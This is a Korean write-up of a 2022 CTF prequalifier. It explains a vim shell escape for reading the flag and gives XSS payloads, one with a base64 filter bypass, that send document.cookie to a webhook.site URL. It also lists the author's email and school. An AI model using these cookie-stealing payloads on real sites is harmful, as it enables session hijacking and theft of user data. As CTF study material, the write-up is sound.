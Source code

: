 # 2022 Cyber-Guardians CTF Prequal

## Dreamhack Profile
Nickname: suk-6

Email: wsuk.nam@gmail.com

School: 덕영고등학교

Group: 덕영고등학교

Team: Asseertive

## Solve list
A - Sanity Check!

I - xss-1.0

J - xss-1.3

### Sanity Check!
Netcat으로 원격 서버에 접속하였더니 vim 편집창이 나온다.

vim 편집기에서 !를 붙이고 Shell 명령어를 작성하면 실행되는 기능을 활용하여 루트 디렉토리의 파일을 조회하고 head 명령어로 flag 파일을 불러왔다.

### xss-1.0
로컬 Chrome 안에 쿠키 값이 들어있는데, XSS 취약점을 이용해 이 값을 확인하는 문제이다.

flag 페이지에서 로컬 Chrome을 컨트롤 할 수 있는데 `location.href`를 이용하여 webhook.site로 리다이렉트 시켰다.

이 때 `document.cookie`를 이용하여 브라우저의 쿠키를 URI에 담아서 보냈다.

```<svg/onload=location["href"]="https://webhook.site/webhook-id/?flag="+document["cookie"]>```

### xss-1.3
xss-1.0과 같이 로컬 Chrome 안에 쿠키 값이 들어있는데, XSS 취약점을 이용해 이 값을 확인하는 문제이다.

다만, `'`, `"`, `=`를 필터링하고 있다.

그러므로 xss-1.0에서 사용한 코드를 base64 인코딩 하여 필터링을 우회하고, Flask를 지나 크롬에서 로딩 될 때 디코딩되어 작동되도록 작성하였다.

```
<svg/onload=location.href=`https://webhook.site/webhook-id?flag=`.concat(document.cookie)>

to base64(URL-safe) + JS Decoding Code

<script>document.write(atob(`PHN2Zy9vbmxvYWQ9bG9jYXRpb24uaHJlZj1gaHR0cHM6Ly93ZWJob29rLnNpdGUvd2ViaG9vay1pZD9mbGFnPWAuY29uY2F0KGRvY3VtZW50LmNvb2tpZSk-`))</script>
```